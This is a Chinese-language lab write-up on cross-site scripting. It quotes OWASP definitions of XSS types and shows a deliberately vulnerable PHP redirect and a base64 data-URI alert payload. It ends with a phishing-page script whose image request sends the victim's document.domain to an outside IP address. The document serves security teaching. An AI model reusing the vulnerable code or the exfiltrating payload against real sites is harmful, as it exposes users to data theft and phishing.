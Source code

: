 
## 实验目的

- 搭建漏洞网页
- xss攻击实现
  - Stored XSS
  - Reflected XSS

<center><img src="./xss攻击实验/1.png" height=30px></center>

<!--more-->

## 实验环境

- wsl
  - ubuntu18.04

## 实验原理

### stored xss(AKA Persistent or Type I)

> Stored XSS一般发生在用户输入的数据被存储在目标服务器上的时候，比如数据库中、留言论坛中、访问者日志、评论字段等。然后受害者能够从Web应用程序中检索存储的数据，而不使这些数据在浏览器中安全地呈现。随着HTML5和其他浏览器技术的出现，我们可以设想攻击的有效载荷被永久存储在受害者的浏览器中，例如HTML5数据库，而永远不会被发送到服务器

### Reflected XSS (AKA Non-Persistent or Type II)

> 反射式XSS的发生是当用户的输入被Web应用程序立即返回错误消息、搜索结果或任何其他响应，其中包括用户提供的部分或全部输入作为请求的一部分，而这些数据没有被安全地渲染在浏览器中，并且没有永久存储用户提供的数据。在某些情况下，用户提供的数据甚至可能从未离开过浏览器(请看接下来的基于DOM的XSS)

### DOM Based XSS (AKA Type-0)

> 基于DOM的XSS是一种XSS的形式，其中从源到汇的整个污染数据流都发生在浏览器中，即数据的源在DOM中，汇也在DOM中，而且数据流从未离开过浏览器。例如，源头(读取恶意数据的地方)可以是页面的URL(如document.location.href)，也可以是HTML中的一个元素，而汇点则是一个敏感的方法调用，导致恶意数据的执行(如document.write)
> 
> DOM Based XSS is a form of XSS where the entire tainted data flow from source to sink takes place in the browser, i.e., the source of the data is in the DOM, the sink is also in the DOM, and the data flow never leaves the browser. For example, the source (where malicious data is read) could be the URL of the page (e.g., document.location.href), or it could be an element of the HTML, and the sink is a sensitive method call that causes the execution of the malicious data (e.g., document.write).

### client/server xss

> 多年来，大多数人认为这些（Stored、Reflected、DOM）是三种不同类型的XSS，**但实际上，它们是重叠的**。你可以同时拥有基于DOM的Stored和Reflected的XSS。你也可以有基于DOM的存储和反射的非DOM的XSS，但这很混乱，所以为了帮助澄清事情，从2012年年中开始，研究社区提出并开始使用两个新术语来帮助组织可能发生的XSS类型。   
> - 服务器XSS 
> - 客户端XSS

#### Server XSS

> 当不受信任的用户提供的数据被包含在服务器生成的HTML响应中时，服务器XSS就会发生。这些数据的来源可能是来自请求，或来自存储位置。因此，你可以同时拥有反射式服务器XSS和存储式服务器XSS.在这种情况下，整个漏洞都在服务器端代码中，浏览器只是简单地渲染响应并执行其中嵌入的任何有效脚本。

#### Client XSS

> Client XSS occurs when untrusted user supplied data is used to update the DOM with an unsafe JavaScript call. A JavaScript call is considered unsafe if it can be used to introduce valid JavaScript into the DOM.

## 实验内容

### 服务器xss

```php
<?php
header('Location: '.$_GET['x']);
?>
```
- 输入x的值作为响应头部的`Location`字段值输出
- 恶意代码：`?x=data:text/html;base64,PHNjcmlwdD5hbGVydChkb2N1bWVudC5VUkwpPC9zY3JpcHQ+Cg==`
```sh
➜  base=$(base64  <<< "<script>alert(document.URL)</script>" )
➜  echo "$base"
PHNjcmlwdD5hbGVydChkb2N1bWVudC5VUkwpPC9zY3JpcHQ+Cg==
➜  
```
- 结果：弹框

### 客户端xss

- 典型：DOM XSS
  > DOM型XSS代码不需要服务器解释响应的直接参与，触发XSS只需要浏览器的DOM解析，完全是客户端的问题！！
- 恶意代码
  ```javascript
  var c=encodeURI(document.getElementById("xss").value);
  ```
- 结果：弹框

## xss payload

构造一个植入恶意代码的钓鱼网页,让受害者访问（会看到一个空图片）

```js
const img=document.createElement('img')
img.src='http://192.168.50.129/'+escape(document.domain)
document.body.appendChild(img)
```

<img src='xss%E6%94%BB%E5%87%BB%E5%AE%9E%E9%AA%8C/1.png' width='' height='50'/>

## 参考

- [Types of XSS | OWASP](https://owasp.org/www-community/Types_of_Cross-Site_Scripting)
- [【前端黑客】XSS入门 - 知乎](https://zhuanlan.zhihu.com/p/37455061)